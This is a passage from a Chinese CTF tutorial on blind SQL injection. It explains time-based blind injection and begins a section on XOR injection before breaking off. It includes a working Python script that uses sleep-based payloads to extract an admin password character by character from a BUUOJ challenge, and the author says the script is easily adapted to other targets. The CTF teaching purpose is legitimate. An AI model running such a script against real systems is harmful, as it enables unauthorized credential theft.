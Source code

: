 

因为bool盲注的位置是不确定的，有可能是在url中以get形式，或者POST出的数据等等所以模板形式也不唯一，不过只要掌握requests包（类似学pwn的都会用到的pwn），理解发送http的流程，就是在模板上进行修改的操作了。

## 时间盲注

原理和bool盲注一模一样


区别点在于bool判断值变成了时间


也就是说如果bool为true,返回的时间为0.1s


如果为false，返回的时间为1s


这不就是个对错了嘛


所以直接就给出脚本了


```plain
import requests
url="http://fe5d8a13-c089-4e47-847d-b43c1622a20d.node3.buuoj.cn/index.php?action=publish"
cookie = {"PHPSESSID":"silql33d2jbdqnqp0l6san8rr4"}
k="0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
flag=""
for i in range(50):
for j in k:
j = ord(j)
data={
'mood':'0',
'signature':'1`,if(ascii(substr((select password from ctf_users where username=`admin`),{},1))={},sleep(3),0))#'.format(i,j)
}
try:
r=requests.post(url,data=data,cookies=cookie,timeout=(2,2))
except:
flag+=chr(j)
print(flag)
break

```



虽然针对特别的题目，但是改一改就能用了，甚至也能够改造成bool盲注的脚本。


找不到当时的例题了

## 异或注入

异或注入式一种绕过方式，更像是一种思维


在计算机二进制
